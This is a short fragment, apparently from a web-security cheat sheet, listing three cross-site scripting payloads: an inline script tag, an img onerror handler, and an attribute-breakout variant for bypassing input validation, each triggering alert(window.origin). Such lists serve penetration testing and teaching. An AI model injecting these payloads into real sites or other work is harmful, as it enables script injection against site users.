 
Inject inline command
```html
<script>alert(window.origin)</script>
```

Inject client side script
```html
<img src="" onerror=alert(window.origin)>
```

Bypass input validation
```html
"><img src="" onerror=alert(window.origin)>
```